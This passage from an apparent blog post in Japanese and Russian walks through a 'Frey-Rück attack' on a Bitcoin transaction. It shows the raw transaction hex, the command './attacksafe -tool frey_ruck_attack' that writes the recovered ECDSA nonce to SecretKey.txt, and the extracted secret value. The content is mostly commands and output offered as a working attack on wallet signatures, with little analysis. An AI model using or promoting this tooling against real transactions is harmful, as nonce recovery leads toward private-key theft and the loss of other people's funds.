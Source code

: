 

<pre class="wp-block-code"><code>0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-42-1024x261.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-963"/></figure>



<p>この攻撃は から開始され<code>-tool frey_ruck_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-43-1024x487.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-965"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3

RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<p><code>"Deployments ECDSA"</code>ビットコイン ブロックチェーン トランザクションの重大な脆弱性を意味する碑文が表示されます。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
